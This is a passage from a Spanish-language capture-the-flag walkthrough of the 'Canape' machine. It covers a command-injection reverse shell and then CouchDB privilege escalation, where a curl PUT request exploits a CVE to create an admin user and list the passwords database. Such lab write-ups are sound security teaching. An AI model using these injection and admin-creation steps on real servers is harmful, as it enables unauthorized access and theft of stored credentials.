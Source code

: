 Donde el pyalod debe llevar "; homer" (o el nombre de otro personaje para que haga el POST)

Esto ejecutara el primer comando y como segundo entraría homer que no existe y dará un error, pero esto no interfiere en la explotación.
Si ejecutamos el exploit deberiamos ganar una revshell como vemos acontinuación.

```bash
www-data@canape:/tmp$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@canape:/tmp$
```

### Privesc To Homer

Hacemos el tratamiento de la tty y empezamos a enumerar. Si nos volvemos a fijar en el código fuente de la página podemos ver lo siguiente:

```python
app = Flask(__name__)
app.config.update(
    DATABASE = "simpsons"
)
db = couchdb.Server("http://localhost:5984/")[app.config["DATABASE"]]
```

Se está usando couchdb como motor de base de datos. Si miramos en hacktricks información al respecto podemos encontrar la siguiente:https://book.hacktricks.xyz/network-services-pentesting/5984-pentesting-couchdb

Vemos que se pueden hacer peticiones a traves de curl usando GET:

```bash
www-data@canape:/$ curl -X GET http://127.0.0.1:5984/_all_dbs
["_global_changes","_metadata","_replicator","_users","passwords","simpsons"]
www-data@canape:/$
```

Podemos listar todas las bases de datos existentes, pero no podemos acceder a ellas:

```bash
www-data@canape:/$ curl -X GET http://127.0.0.1:5984/passwords
{"error":"unauthorized","reason":"You are not authorized to access this db."}
```

Nos hace falta un usuario autenticado... Si seguimos leyendo en hacktricks podemos ver que existe un CVE que permite crear un usuario administrador.

```bash
curl -X PUT -d '{"type":"user","name":"hacktricks","roles":["_admin"],"roles":[],"password":"hacktricks"}' localhost:5984/_users/org.couchdb.user:hacktricks -H "Content-Type:application/json"
```

Si hacemos eso (podemos cambiar el username y el password) podremos autenticarnos en la bd y acceder a los datos.

```bash
www-data@canape:/$ curl -X GET http://hacktricks:hacktricks@127.0.0.1:5984/passwords/_all_docs
{"total_rows":4,"offset":0,"rows":[
{"id":"739c5ebdf3f7a001bebb8fc4380019e4","key":"739c5ebdf3f7a001bebb8fc4380019e4","value":{"rev":"2-81cf17b971d9229c54be92eeee723296"}},
{"id":"739c5ebdf3f7a001bebb8fc43800368d","key":"739c5ebdf3f7a001bebb8fc43800368d","value":{"rev":"2-43f8db6aa3b51643c9a0e21cacd92c6e"}},
{"id":"739c5ebdf3f7a001bebb8fc438003e5f","key":"739c5ebdf3f7a001bebb8fc438003e5f","value":{"rev":"1-77cd0af093b96943ecb42c2e5358fe61"}},
{"id":"739c5ebdf3f7a001bebb8fc438004738","key":"739c5ebdf3f7a001bebb8fc438004738","value":{"rev":"1-49a20010e64044ee7571b8c1b902cf8c"}}
]}
```

